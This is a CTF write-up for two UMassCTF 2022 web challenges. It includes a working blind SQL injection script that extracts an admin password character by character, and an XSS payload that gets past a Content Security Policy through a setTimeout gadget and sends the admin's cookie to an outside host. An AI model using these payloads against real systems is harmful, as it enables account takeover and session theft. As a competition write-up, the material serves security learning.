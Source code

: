 ```yaml
---
title: UMassCTF 2022
author: HoangND
date: 2022-04-03 00:00:00 +0700
categories: [Writeups, UmassCTF 2022]
tags: [sqli, dom xss]
---
```


I haven't released any CTF writeups for a long time. Today i done 2 web challenge in UmassCTF so i decided writing something.

# Venting

![image](https://user-images.githubusercontent.com/61985236/161438032-f27b69b3-95c2-4fb2-9edf-2c390c2dc73b.png)

After tried web features, the proxy history showed me 1 interest endpoint.

![image](https://user-images.githubusercontent.com/61985236/161438156-c058349d-729f-497d-936e-1cde76e9243b.png)

Just change admin=True and we will get admin login page. Trying put ' in an textbox give me that this is sql injection challenge.

I tried dumped admin's password by the following script and get the flag.
```python
import requests

passwd = ''
    
for i in range(36):
    for x in range(127, 31, -1):
        c = chr(x)
        basepl = {
            "user": "admin",
            "pass": "1' or (SELECT hex(substr(password,{},1)) FROM users WHERE+username='admin') > hex('{}') and 'a'='a".format(i+1, c)
        }
        res = requests.post(
            'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login', data=basepl, verify=False)
        # print(c+'  :  '+str(len(res.text)))
        if len(res.text) == 113:
            passwd += chr(x+1)
            break

    print(passwd)

```

# Umassdining
![image](https://user-images.githubusercontent.com/61985236/161434067-5c5d653a-9c04-43e4-810d-71f0c92c829d.png)
The source code is given in the challenge's description but I checked web features first. The web navigation shows us 3 options: Home, Register, Join. Register is basically for registration, after fill the form we got the message 'We got your request and will read it shortly!'. Join navigation is maybe administrator feature because the message 'You're not allowed here!' appeared. Next we audit the source code. This web has the following 3 main endpoint

```python
@app.route("/register",methods = ['GET','POST'])
def get_register():
    if(request.method=='GET'):
        response = make_response(render_template('register.html'))
        add_resp_headers(response);
        if(check_for_cookie()==False):
            response.set_cookie("auth","-1",secure=True,samesite=None)
        return response
    elif(request.method=='POST'): 
        if(active_count()<10):
            data = request.form.to_dict()
            thread = Thread(target=bot.checkEssay,kwargs={'data':data})
            thread.start()
            return "We got your request and will read it shortly!",200
        else:
            return "We are busy right now, try again in a second",200

@app.route("/review/essay",methods = ['GET','POST'])
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200

@app.route("/join",methods = ['GET'])
def get_play():
    if(request.cookies.get("auth")==admin_cookie):
        return "TEST{not_the_real_flag}",200
    return "You're not allowed here!",403
```

Endpoint /join checks auth cookie and only returns flag if it is admin cookie. I need to get the admin token by somehow. /register forwards request data to bot.checkEssay

```python
def checkEssay(data):
    opts = Options()
    opts.add_argument("--headless")
    driver = Firefox(executable_path='/usr/bin/geckodriver',options=opts)
    driver.set_window_size(320, 240)
    driver.set_page_load_timeout(5)
    driver.get('http://127.0.0.1:8000/')
    driver.add_cookie({"name":"auth","value":admin_cookie})
    driver.get('http://127.0.0.1:8000/review/essay?email={a}&essay={b}'.format(a=data['email'],b=data['essay']))    
    time.sleep(3)
    driver.quit()
```

The above section takes data from register endpoint, add admin's cookie to cookie and make request to the last of 3 endpoints - /review/essay, maybe i could leak the cookie from this. Look /review/essay handler

```python
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200
```

Check the essay_checker template returned by the above handler

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Essay Review</title>
</head>
<body>
    <h1> 
        Essay Review Panel
    </h1><br>
    <div>
        <main>
            Essay<br> 
            {{essay.essay|safe}}<br>
            Author<br>
            {{essay.email}}<br>
        </main>
    </div>
</body>
</html>
```

The jinja2's safe filter is used in essay property of essay object. The safe filter basically disables html-escape in the expression passed through it while rendering html page. It's maybe vulnerable to XSS exploit and i can make outbound request to get admin's cookie. I tried some basic payload but it didn't work, my outbound server didn't get any requests. The reason is the following

![image](https://user-images.githubusercontent.com/61985236/161436404-6ad54892-f973-4b15-8e6a-f7b945b99f17.png)

```python
def add_resp_headers(response):
    response.headers['Content-Security-Policy']= "default-src 'self';script-src 'self' 'unsafe-eval'"
```

The above section adds CSP header to response that restrict browser can only load resource from the current origin. It literally means all directly payloads from our essay param won't work. For more information about CSP, you can read [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). I checked static folder and expected there was any usefull javascript file in it. And i saw things.js

```javascript
var iloveumass = document.getElementById("debug").getAttribute("data-iloveumass");
function say_something(words)
{
    setTimeout(`console.log('${words}')`,500)
}
document.addEventListener("DOMContentLoaded", function() {
    say_something(iloveumass)
});
```

This script gets the html element with id 'debug', takes 'data-iloveumass' attribute from it and passes it to vulnerable setTimeout function call. We can manipulate this file to bypass CSP protection. Final payload is the following

```html
<script id='debug' src="/static/js/thing.js" data-iloveumass="aaa');eval(document.location='http://hoangnd.free.beeceptor.com?cookie='%2bdocument.cookie);console.log('aaa"></script>
```

Put it in essay in register form, and an request will be made to your server.

![image](https://user-images.githubusercontent.com/61985236/161437862-27d1340d-9516-4ecc-b6e2-27f02e629e92.png)

Add admin's cookie to /join endpoint and get flag.




